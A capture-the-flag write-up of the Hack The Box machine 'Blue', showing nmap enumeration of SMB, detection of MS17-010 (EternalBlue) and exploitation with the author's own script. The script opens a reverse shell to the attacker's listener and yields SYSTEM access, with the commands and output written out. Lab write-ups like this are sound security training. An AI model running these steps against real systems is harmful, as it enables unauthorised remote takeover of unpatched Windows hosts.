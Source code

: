 ```yaml
---
title: Hackthebox - Blue
description: writeup of the HTB machine Blue, exploiting eternal blue.
author: rxffsec
date: 2024-08-20 06:25:00 -0600
categories:
  - CTF
  - HTB
tags:
  - writeup
  - eternal_blue
  - eccptv2
image:
  path: /assets/img/htb/blue/blue.png
---
```

## Enumeration

Start with an nmap scan that will output every open port in grep format to the archive allPorts
```bash
$ sudo nmap -sS -p- --open -n -Pn --min-rate=5000 10.10.10.40 -vvv -oG allPorts
```

After doing that I use a function named xps to extract the ports and run a command that will enumerate all the versions and scripts of each port 

```bash
$ xps allPorts
[+] command copied to clipboard, run:
sudo nmap -sVC -p135,139,445,49152,49153,49154,49155,49156,49157 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

I modified the output to only scan those related to smb and enumerate the scripts with "vuln and safe" categories

```bash
$ sudo nmap -sVC --script="vuln and safe" -p135,139,445 --min-rate=5000 -n -Pn 10.10.10.40 -oN targeted
```

The scan shows that the machine is vulnerable to eternal-blue ms17-010

```java
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
```

## shell as nt authority/system
To exploit this vulnerability I use a bash script I made that will automate all the process [bluepwn-ms17-010](https://github.com/rxffsec/bluepwn-ms17-010)

```bash
$ git clone https://github.com/rxffsec/bluepwn-ms17-010
$ cd bluepwn-ms17-010
$ ./bluepwn.sh
```

the process is the following first I retrieve the information of the target with the objective to know its architecture, in this case I have a x64 windows 7 machine  

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 1
[?] IP of the target: 10.10.10.40
SMB         10.10.10.40     445    HARIS-PC         [*] Windows 7 Professional 7601 Service Pack 1 x64 (name:HARIS-PC) (domain:haris-PC) (signing:False) (SMBv1:True)
[?] Would you like to go back?
[Y/n] y
```

Then I run the exploit setting up the correct parameters such as ip address port and architecture

```java
Choose an option
[1] Get Target information
[2] Run exploit
[0] Exit
[>] 2
[?] Target IP: 10.10.10.40
[?] Your IP: 10.10.14.13
[?] Your Port: 9001
[?] Architecture of the host
	[1] x86
	[2] x64
[>] 2
```

The tool automatically retries the exploit in order to make it work, finally after some retries it spawns a shell as nt authority\system

```bash
[!] Retrying...
If the issue persists is probably that the target machine got rebooted
listening on [any] 9001 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

